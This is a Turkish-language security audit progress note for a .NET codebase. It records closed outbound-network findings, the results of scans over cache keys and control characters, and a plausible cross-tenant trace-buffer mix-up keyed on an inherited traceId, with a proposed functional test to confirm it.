**Devredilen egress kalemleri KAPANDI (2026-08-20, Faz 77).** B05-2, B05-3,
B05-4, B05-5, B05-6 ve B05-7'nin altısı da kapatıldı: koruma
`EgressSocketGuard` + `EgressAddressValidator` + `ConfigurationKeyGuard`
üçlüsünde ortaklaştı, üç giden yüzeyin (webhook · MCP · model sağlayıcı) hepsine
takıldı ve K-164'ün zorlama noktası ilk testlerini aldı. Ayrıntı:
[Faz 77](../arsiv/fazlar/77-GIDEN-AG-MUHAFIZI.md).

Üç PLAUSIBLE kalem doğrulandı ve kapandı: B01-3 (filtre sırası), B02-7
(`EvalRunQuery` sözleşmesi), B03-7 (`record` `ToString`). Sınıf taramasının
bulduğu B02-11 de doğrulanıp kapatıldı.

### Sınıf taramalarının getirisi

Üç sınıf taraması, denetçilerin bildirdiğinden **fazlasını** buldu:

- **Cache anahtarı:** 68 `ConcurrentDictionary` noktası tarandı. `QuotaEnforcer`
  temiz çıktı (`ThresholdKey` `TenantId` taşıyor), `ModelProviderHealthCache`
  bağımsız vaka değil ama `ApplyCircuitBreakerOverlay` üzerinden B02-3'ün
  kirliliğini miras alıyordu — düzeltme gövdesini de kapsadı.
- **Denetim yükü:** denetçi 3 yer bildirdi, tarama **10** buldu.
- **Görünmez ayırıcı:** repo genelinde yalnız 3 kaynak dosya kontrol karakteri
  taşıyordu; hepsi MCP anahtarlarıydı ve temizlendi. Bu tarama, kalan bulguların
  kaynak okumasına dayanan kısmını da sınırlar.

### Yeni bulgu (sınıf taramasından)

**B02-11 [PLAUSIBLE] [🟡] `RunTraceCollector._buffers` `traceId` ile anahtarlı;
`traceId` gelen `traceparent`'tan devralınır.** Yer:
`src/Tracon.Core/Diagnostics/RunTraceCollector.cs:41`, `:101` ·
`WorkflowRunner.cs:449` · `RunRecordingAgent.cs:506`. Aynı `traceId`'yi paylaşan
eşzamanlı iki `run` tek tamponu paylaşır; ilk tamamlanan, tamponun tamamını kendi
`tenantId`'siyle yazar. İstismar, kurbanın `traceId`'sini eşzamanlı bilmeyi
gerektirir — bu yüzden PLAUSIBLE. Doğrulama yolu: iki kiracıyla aynı
`traceparent` başlığını gönderen bir fonksiyonel test.
